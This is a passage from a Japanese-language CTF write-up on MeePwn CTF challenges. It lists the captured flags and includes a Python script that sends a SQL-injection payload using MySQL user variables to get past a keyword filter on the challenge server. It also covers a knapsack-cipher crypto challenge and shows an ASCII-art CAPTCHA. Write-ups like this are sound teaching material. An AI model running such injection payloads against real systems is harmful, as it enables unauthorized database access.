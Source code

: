 これでフラグが得られました。

```
MeePwnCTF{_I_g1ve__uPPPPPPPP}
```

## [Web 299] Br0kenMySQL v3

Br0kenMySQL v2 でフラグと一緒に得られた URL にアクセスすると、Br0kenMySQL v2 のフィルターに `time|date|sec|day` が増えたソースコードが表示されました。

`@x := 2` みたいな感じでユーザ定義変数を使いましょう。

```python
import requests
import urllib

print requests.get('http://139.59.239.133/c541c6ed5e28b8762c4383a8238e6f5632cc7df6da8ce9db7a1aa706d1e5c387/?id=' + urllib.quote('case @x when 2 then 1 else @x := 2 end')).content
```

これでフラグが得られました。

```
MeePwnCTF{_I_g1ve__uPPPPPPPP_see_you_next_Year}
```

## [Crypto 100] nub_cryptosystem

[nub_cryptosystem.py](https://gist.github.com/quandqn/e7d874857b0e31c9a55274fa02d5c944)、[pubkey.txt](https://gist.githubusercontent.com/quandqn/c3f0758d3c03d395d6174b2e5f1e8443/raw/66ab7c04e0132d1fd92d9def6cd33315cda4d918/pubkey.txt)、[enc.txt](https://gist.githubusercontent.com/quandqn/ab5326318e3333609100cd876b1bfedc/raw/1e2669e02ff166123277d56c30e6e5eb24d127da/enc.txt) が与えられました。

Merkle-Hellman ナップサック暗号のようです。過去同様の問題が出題された際に書かれた [write-up](https://github.com/ctfs/write-ups-2014/tree/master/asis-ctf-quals-2014/archaic) のスクリプトで解けました。

```
MeePwnCTF{Merkleee-Hellmannn!}
```

## [Misc 149] AreYouHuman

以下のような CAPTCHA が表示されるので答える、というのを何度も繰り返す問題でした。

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@-----@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@---  ---@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@ -----@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@- -@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@--@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@- -@@@@@@@@@@@@@@@@@---------@@@@@---    -@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@- -@@@@@@@@@@@@@@@@@@  - - --@@@--    ----@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@- ---- -----  ----@@@--@@---@@@@---@- -@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@- ------@- -------@@@--@@@@@@@@@@@@@- -@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@---@@@@@@---@@@@@@@@@--@@@@@@@@@@@@@- @@@@---@@@@--@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@--@@@@@@@---@@@@@@@@@---@@@--@@@@@@@- @@@@-  -@@@- @@@@@@@@@@@@@@@@@
@@@@@@@@@@@@--@@@@@@@---@@@@@@@@@-      --@@@@@@- @@@@- --@@@- -@@@@@@@@@@@@@@@@
@@@@@@@@@@@@--------@@--------@@@--------@@@@@@@- -@@@- ---@@- -@@@@@@@@@@@@@@@@
@@@@@@@@@@@@-   ----@@- ---- -@@@--@@@@@@@@@@@@@- @@@@@ ---@@---@@@@@@@@@@@@@@@@
@@@@@@@@@@@@-----@@@@@---@@@--@@@- @@@@@@@@@@@@@- @@@@@--@--@@--@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@--@@@@@@@@@--@@@@@@@@@@@@@- @@@@@- @@-@@- @@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@--@@@@@@@@@- -------@@@@@@- -@@@@- -@--@- -@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@- -----@@@@--  -----@@@@@@--@@@@@- -@@--- -@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@-     ---@@@@@@@@@@@@@@@@@@@@@@@@---@@--- -@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@---------@@@@@@@@@@@@@@@@@@@@@@@@---@@@----@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@--@@@-  -@@@@@@@@@@@@@@@
```